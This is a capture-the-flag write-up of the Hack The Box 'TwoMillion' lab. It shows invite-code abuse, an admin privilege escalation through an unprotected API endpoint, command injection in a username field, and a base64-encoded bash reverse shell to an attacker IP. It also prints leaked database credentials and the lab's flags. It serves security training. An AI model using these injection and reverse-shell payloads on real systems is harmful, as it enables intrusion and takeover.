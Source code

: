 # TwoMillion

After mapping the website 
on page of login :-
simple login form with error in "User not found" ==> you can bruteforce username
by dirb search 
you will find : http://2million.htb/register
also found js function in invite page
after deobfuscate it 
```
function verifyInviteCode(code) {
    var formData = { "code": code };

    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite/verify',
        success: function(response) {
            if (response.status === 200 && response.success === 1 && response.data.message === "Invite code is valid!") {
                localStorage.setItem('inviteCode', code);
                window.location.href = '/register';
            } else {
                alert("Invalid invite code. Please try again.");
            }
        },
        error: function(response) {
            alert("An error occurred. Please try again.");
        }
    });
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/generate',
        success: function(response) {
            console.log(response);
        },
        error: function(response) {
            console.log(response);
        }
    });
}

```
then go to register page 
http://2million.htb/register

with burpe you will git this reqest 
```
POST /api/v1/user/register HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 81
Origin: http://2million.htb
Connection: close
Referer: http://2million.htb/register
Cookie: PHPSESSID=dro49cpjchla0hbraffbmhqv4v
Upgrade-Insecure-Requests: 1

code=&username=user&email=user%40htb.com&password=user&password_confirmation=user
```
### Curl 
```
curl -sX POST http://2million.htb/api/v1/invite/how/to/generate 
{"0":200,"success":1,"data":{"data":"Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb \/ncv\/i1\/vaivgr\/trarengr","enctype":"ROT13"},"hint":"Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."}
```

you got a ROT13-decoded message says : In order to generate the invite code, make a POST request to /api/v1/invite/generate
```
curl -sX POST http://2million.htb/api/v1/invite/generate
{"0":200,"success":1,"data":{"code":"N1ZQVDQtSTRGTTQtTjNRM0stMktJOUc=","format":"encoded"}}  
```

it is base64 decoded invitation code  => `echo N1ZQVDQtSTRGTTQtTjNRM0stMktJOUc= | base64 -d` => `7VPT4-I4FM4-N3Q3K-2KI9G` 

Use the invitation code to register an account

`code=7VPT4-I4FM4-N3Q3K-2KI9G&username=user&email=user%40htb.com&password=user&password_confirmation=user`

GET the `PHPSESSID` from your browser => `0u8rjqr7pid9s7m2eaoavcjecu`
```
curl -sv 2million.htb/api --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" | jq
```


* Connection #0 to host 2million.htb left intact
{
  "/api/v1": "Version 1 of the API"
}
```
curl http://2million.htb/api/v1 --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" | jq 

{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```

You find all V1 data

```
curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" --header "Content-Type: application/json" | jq

{
  "status": "danger",
  "message": "Missing parameter: email"
}
```
```
curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" --header "Content-Type: application/json" --data '{"email":"user@htb.com"}' | jq

{
  "status": "danger",
  "message": "Missing parameter: is_admin"
}
```
```
curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" --header "Content-Type: application/json" --data '{"email":"user@htb.com", "is_admin": '1'}' | jq 

{
  "id": 13,
  "username": "user",
  "is_admin": 1
}
```

if you now try `curl http://2million.htb/api/v1/admin/auth --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" | jq`

```
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" --header "Content-Type: application/json" --data '{"username":"user"}'  
```
```
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" --header "Content-Type: application/json" --data '{"username":"user;id;"}'  
```

`echo -n "bash -i >& /dev/tcp/10.10.14.48/1234 0>&1" | base64`

YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40OC8xMjM0IDA+JjE=

DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123

We find **admin password**
ssh to admin with the password

user flag => a2624f25c7983f33de70b88f7b290710

in `/var/mail/admin`
```
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```
root.txt => f3f590b486fa536eb258bc4abf59e107
